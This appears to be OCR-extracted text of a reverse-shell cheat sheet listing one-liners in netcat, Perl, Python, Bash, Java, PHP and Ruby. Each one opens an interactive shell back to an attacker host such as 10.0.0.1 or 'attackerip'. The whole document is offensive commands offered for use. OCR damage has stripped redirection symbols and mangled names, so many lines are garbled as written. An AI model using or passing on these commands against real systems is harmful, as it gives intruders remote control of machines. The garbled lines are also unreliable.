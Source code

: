 
REVERSE SHELLS [1] [3] [4]


NETCAT (* START LISTENER ON ATTACK BOX TO CATCH SHELL)

nc 10.0.0.1 1234 -e /bin/sh	Linux reverse shell
nc 10.0.0.1 1234 -e cmd.exe	Windows reverse shell


NETCAT (SOME VERSIONS DON'T SUPPORT -E OPTION)

nc -e /bin/sh 10.0.0.1 1234


NETCAT WORK-AROUND WHEN -E OPTION NOT POSSIBLE
rm /tmp/f;mkfifo /tmp/f;cat /tmp/fl/bin/sh -i 2 &1|nc 10.0.0.1 1234 /tmp/f


PERL

perl -e 'use Socket; $i="10.0.0.1"; $p=1234; socket(S,PF_INET, SOCK STREAM, getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){ open(STDIN," &S");open(STDOUT," &S"); open(STDERR," &S"); exec("/bin/sh - i");};'


PERL WITHOUT /BIN/SH

perl -MIO -e '$p=fork;exit,if(SP);$c=new
I0::Socket::INET(PeerAddr,"attackerip:4444");STDIN- fdopen($c,r);$~~fdopen($c,w);system$_ while ;'


PERL FOR WINDOWS

perl -MIO -e '$c=new I0::Socket::INET(PeerAddr,"attackerip:4444");STDIN-fdopen($c,r);$~~ fdopen($c,w);system$_ while ;'


PYTHON

python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'


BASH

bash -i & /dev/tcp/10.0.0.1/8080 0 &1


JAVA

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5 /dev/tcp/10.0.0.1/2002;cat &5 | while read line; do \$line 2 &5 &5; done"] as String[])
p.waitFor()


PHP

php -r '$sock-fsockopen("10.0.0.1",1234);exec("/bin/sh -1 &3 &3 2 &3");'


RUBY

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec
sprintf("/bin/sh -i &%d &%d 2 &%d",f,f,f)'
